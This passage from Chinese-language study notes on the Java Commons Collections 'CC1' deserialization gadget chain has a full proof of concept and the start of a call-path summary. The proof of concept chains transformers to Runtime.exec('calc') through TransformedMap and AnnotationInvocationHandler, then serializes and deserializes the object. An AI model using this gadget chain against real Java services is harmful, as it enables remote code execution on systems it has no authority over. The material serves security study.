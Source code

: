      /**
       * 功能：
       *
       * @author 长瀞同学
       * @ClassName ${NAME}
       * @description ${DESCRIPTION}
       * @date 2023-05-30 21:57
       * @Version 1.0
       */
      public class Main {
          public static void main(String[] args) throws Exception {
      
              ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
                      // 提前将Runtime放进去
                      new ConstantTransformer(Runtime.class),
                      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
              });
      
              HashMap<Object, Object> hashMap = new HashMap<>();
              hashMap.put("value","aaa");
              Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      
              Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
              Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
              handerConstructor.setAccessible(true);
              Object o = handerConstructor.newInstance(Target.class, decorate);
      
              serialize(o);
              unserialize();
          }
          public static Object unserialize() throws Exception {
              ObjectInputStream ois = new ObjectInputStream(new FileInputStream("cc1.bin"));
              return ois.readObject();
          }
      
          public static void serialize(Object o) throws Exception{
              ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc1.bin"));
              oos.writeObject(o);
          }
      }
      
      ```

32.   **总结**：

      ```nginx
      - 首先进行反序列化肯定从：
      	# 反序列的开始
       	-AnnotationInvocationHandler.readObject()
      	# map是被放在了TransformedMap类中，memberValue的值指向TransformedMap对象
      	-memberValue.setValue()
      	# 所以会调用重写的setValue()方法
      	-MapEntry.setValue()
      	# checkSetValue()这个方法是在子类实现的
      	-checkSetValue(value);